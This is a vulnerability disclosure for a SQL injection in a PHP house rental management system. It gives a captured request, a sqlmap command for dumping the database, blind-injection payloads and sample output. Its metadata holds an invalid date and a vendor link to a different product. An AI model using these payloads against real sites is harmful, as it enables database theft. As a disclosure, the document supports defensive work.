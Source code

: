 # House Rental Management System - SQL Injection - 2
+ **Exploit Title:** House Rental Management System - SQL Injection - 2
+ **Date:** 2024-15-05
+ **Exploit Author:** Burak Sevben
+ **Vendor Homepage:** https://www.sourcecodester.com/php/17375/best-courier-management-system-project-php.html
+ **Software Link:** https://www.sourcecodester.com/download-code?nid=17375&title=Best+house+rental+management+system+project+in+php+
+ **Version:** Latest
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** Reported, waiting for CVE number.

## Description:
House Rental Management System allows SQL Injection via the 'id' parameter at "http://localhost/rental/view_payment.php?id=12". 
Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: "http://localhost/rental/index.php?page=tenants"
+ Click view button.
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:

```
GET /rental/view_payment.php?id=12 HTTP/1.1
Host: localhost
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
Accept: */*
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
```

+ Use sqlmap to exploit. In sqlmap, use 'id' parameter to dump the database.
```
sqlmap -r r.txt -p id --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=12 AND 5328=5328

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=12 AND (SELECT 7871 FROM (SELECT(SLEEP(5)))Ovop)
---
[17:10:43] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.2.12, Apache 2.4.58
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[17:10:43] [INFO] fetching current database             
current database: 'house_rental_latest'
```
+ current database: `house_rental_latest`

![Ekran görüntüsü 2024-05-16 002239](https://github.com/BurakSevben/CVEs/assets/117217689/f25e73fd-750d-400c-a83f-4e042416fa48)
